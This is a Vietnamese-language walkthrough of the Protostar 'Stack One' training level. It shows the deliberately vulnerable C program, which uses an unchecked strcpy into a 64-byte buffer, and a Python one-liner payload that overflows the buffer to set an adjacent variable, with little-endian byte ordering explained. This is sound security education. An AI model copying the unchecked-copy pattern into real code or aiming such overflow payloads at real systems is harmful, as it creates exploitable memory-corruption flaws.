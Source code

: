 # STACK ONE

## About

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints
  
  * If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
  * Protostar is little endian

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## Solutions

`STACK ONE` là nâng cấp của `STACK ZERO` với yêu cầu bây giờ là chúng ta thay đổi giá trị của biến `modified` bằng giá trị được yêu cầu là `0x61626364` và thay việc lấy stdin từ gets thì `buffer` được sao chép các ký tự từ `argv[1]` - `Đối số thứ nhất của chương trình` thông qua hàm strcpy() cũng có thể khai thác buffer overflow.

`$ man strcpy`

```
BUGS
       If  the  destination  string  of  a  strcpy() is not large enough, then anything might happen.
       Overflowing fixed-length string buffers is a favorite cracker technique  for  taking  complete
       control  of  the  machine.  Any time a program reads or copies data into a buffer, the program
       first needs to check that there's enough space.  This may be unnecessary if you can show  that
       overflow  is  impossible, but be careful: programs can get changed over time, in ways that may
       make the impossible possible.
```

Hàm strcpy() có thể buffer overflow khi chuỗi đích không đủ giá trị để chứa chuỗi coppy từ chuỗi nguồn -> ghi đè lên các thành phần khác trong STACK

Một lưu ý nữa từ Hint là `Little Edian` vậy nên thay vì nhập `\x61\x62\x63\x64` (abcd) thì sẽ là  `\x64\x63\x62\x61` (dcba)

```
root@protostar:/opt/protostar/bin# ./stack1 $(python -c 'print "A" * 64 + "dcba"')                      
you have correctly got the variable to the right value 
```

## Documents

<https://en.wikipedia.org/wiki/Stack-based_memory_allocation>

<https://www.educative.io/edpresso/what-is-gets-in-c>

<https://en.wikipedia.org/wiki/Endianness>


